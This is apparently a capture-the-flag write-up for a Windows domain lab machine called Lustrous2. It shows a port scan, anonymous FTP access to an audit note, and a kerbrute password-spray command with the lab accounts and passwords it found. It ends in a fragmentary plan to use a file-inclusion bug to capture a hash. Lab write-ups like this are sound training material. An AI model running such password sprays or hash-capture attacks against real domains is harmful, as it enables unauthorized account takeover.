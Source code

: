 
![](Lustrous_Cover.png)



## INFO

```
PORT     STATE SERVICE
21/tcp   open  ftp
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```



FTP got anonymous access , where we found list of valid domain users and a audit draft file.

```
ftp> more audit_draft.txt
Audit Report Issue Tracking

[Fixed] NTLM Authentication Allowed
[Fixed] Signing & Channel Binding Not Enabled
[Fixed] Kerberoastable Accounts
[Fixed] SeImpersonate Enabled

[Open] Weak User Passwords
```

Now , as we got usernames , Lets try Kerberoasting and password spray , because the issue [Weak User Passwords] is still not fixed and we can take advantage of that.

Weak Passwords -> Company + Year + Symbol --> Season + Year + Symbol


```
└─# ./kerbrute_ passwordspray -d lustrous2.vl --dc LUS2DC.Lustrous2.vl user_lst Summer2024! -v

[+] VALID LOGIN:  Emma.Bell@lustrous2.vl:Summer2024!

[+] VALID LOGIN:  Terence.Jordan@lustrous2.vl:Lustrous2!

[+] VALID LOGIN:  Thomas.Myers@lustrous2.vl:Lustrous2024
```

Cool ! 



As NTLM Authentication has been disabled . we need to login with Kerberos.

[ Negotiate --> Firefox --> Web mah lfi cha --> lfi to capture hash ! ]